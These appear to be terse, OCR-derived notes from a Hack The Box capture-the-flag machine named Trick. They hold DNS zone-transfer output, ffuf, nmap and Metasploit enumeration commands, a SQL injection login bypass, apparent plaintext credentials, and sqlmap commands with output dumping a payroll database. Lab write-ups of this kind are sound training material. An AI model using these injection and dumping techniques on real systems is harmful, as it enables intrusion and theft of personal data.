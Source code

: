 ;; ANSWER SECTION:
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1

ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://root.trick.htb/FUZZ.html

ffuf -w /usr/share/amass/wordlists/subdomains-top1mil-5000.txt:FUZZ -u http://FUZZ.trick.htb/

msf6 > use auxiliary/gather/enum_dns

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166

nmap -p 53 --script *dns* -Pn 10.10.11.166

nmap -p- -sV -sC -Pn 10.10.11.166  

http://preprod-payroll.trick.htb/login.php

' or 1=1 -- 
to login

Enemigosss
SuperGucciRainbowCake

Travis
Travis_Test
password1234
staff

sqlmap -u "http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=2*" --batch --dump

sqlmap -u "http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=2*" --tables -D payroll_db

06:12:22] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[06:12:22] [INFO] fetching current database
[06:12:22] [INFO] retrieved: payroll_d
[06:16:43] [ERROR] invalid character detected. retrying..
[06:16:43] [WARNING] increasing time delay to 6 seconds
b
[06:17:02] [INFO] fetching tables for database: 'payroll_db'
[06:17:02] [INFO] fetching number of tables for database 'payroll_db'
[06:17:22] [INFO] retrieved: position
[06:21:04] [INFO] retrieved: employee
[06:24:27] [INFO] retrieved: department
[06:28:50] [INFO] retrieved: payroll_items
[06:34:48] [INFO] retrieved: attendance
[06:38:44] [INFO] retrieved: employee_deductions
[06:48:04] [INFO] retrieved: employee_allowances
[06:54:43] [INFO] retrieved: users
[06:57:18] [INFO] retrieved: deductions
[07:03:48] [INFO] retrieved: payroll
[07:08:23] [INFO] retrieved: allowances
